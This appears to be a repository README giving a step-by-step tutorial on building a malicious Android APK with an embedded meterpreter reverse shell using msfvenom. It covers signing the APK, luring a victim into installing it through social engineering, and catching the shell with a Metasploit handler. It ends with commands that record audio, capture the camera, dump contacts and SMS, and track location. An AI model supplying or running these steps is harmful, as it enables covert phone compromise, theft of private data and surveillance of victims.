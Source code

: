 # Android_Hacking_Metasploit

Msfvenom is an android hacking framework used for making hacking apk files that have embedded reverse shells which can be used for hacking android devices.

This tool was not present in backtrack but is now present in Kali Linux as a separate option to make android hacking as easy as possible. We will be using Metasploit and msfvenom together for this hack.

Metasploit built by rapid7 is a community-based project. It has numerous exploits and hacks made and optimized by the community. The best part is that it is free. To show how effective it is, so lets hack an android device with Metasploit and msfvenom.

**Step 1: Creating a malicious apk file**
Open your KALI LINUX. Open your Terminal and type in the following command


# msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.78.129 LPORT=4444 R > myapp.apk

**LHOST= YOUR IP address

**LPORT= 4444

**Use ifconfig to find your IP address if you don`t know.

# ifconfig

**Step 2: Delivering APK file to the victim**
You have now created your malicious spyware .apk file using Metasploit and msfvenom. It will be saved to your /home/ folder by default. Find your newly created hackingworld.apk and send it to your target (hackingworld.apk). Use social engineering to do this so that the victim does install the apk.

**If you get any signing errors or issues use the following:

Keytool (Comes Pre-Installed in Kali Linux)

keytool -genkey -v -keystore my-release-key.Keystore -alias alias_name -keyalg RSA -keysize 2048 -validity 10000

Jarsigner (Comes Pre-Installed in Kali Linux)

jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.Keystore hackingworld.apk aliasname

jarsigner -verify -verbose -certs hackingworld.apky

**Step 3: Metasploit setup**

# msfconsole

Now in the Metasploit framework console type the following

msf  > use exploit/multi/handler
msf exploit(handler) > set payload android/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.78.129
msf exploit(handler) > set LPORT 4444
msf exploit(handler) > exploit

Here

**LHOST= YOUR IP address

**LPORT= 4444

**Step 4: Exploit..!!!**
The moment the victim opens the application on their device, you will get a meterpreter shell on the Kali Linux terminal.

You have now successfully hacked the android device using Metasploit and msfvenom

Some commands you should try using Metasploit and msfvenom:

– record_mic

Records the audio from the android device and stores it on the local drive.

– webcam_snap

Lets you take the images by hacking the android camera of the device

– webcam_stream

Lets you stream live video from the hacked android camera

– dump_contacts

Lets you hack and copy all the contacts from the victim’s phone.

– dump_sms

Lets you hack the victim’s messages and stored it in a text file on your system.

– geolocate

Helps you track the hacked device by location

